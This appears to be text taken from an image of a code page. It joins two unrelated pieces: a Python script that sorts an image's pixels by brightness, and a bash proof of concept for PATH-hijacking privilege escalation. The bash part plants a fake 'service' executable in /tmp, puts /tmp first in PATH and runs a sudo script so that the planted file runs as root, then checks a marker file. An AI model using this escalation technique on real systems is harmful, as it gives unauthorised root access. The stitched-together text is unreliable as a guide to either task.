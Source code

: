 # test

from PIL import Image
import numpy as np

# Load image
img = Image.open("image.png").convert("RGB")
pixels = np.array(img)
h, w, _ = pixels.shape

# Flatten and sort by brightness or any channel
flattened = pixels.reshape(-1, 3)
sorted_pixels = sorted(flattened, key=lambda x: sum(x))  # sort by total intensity

# Reshape back to image shape
sorted_img = np.array(sorted_pixels).reshape(h, w, 3)

# Save
Image.fromarray(sorted_img.astype(np.uint8)).save("sorted_output.png")


echo '#!/bin/bash' > /tmp/service
echo 'echo "PATH Exploit Worked: $0" > /tmp/path_test' >> /tmp/service
chmod +x /tmp/service
export PATH=/tmp:$PATH
sudo /home/<your-username>/script.sh start
cat /tmp/path_test
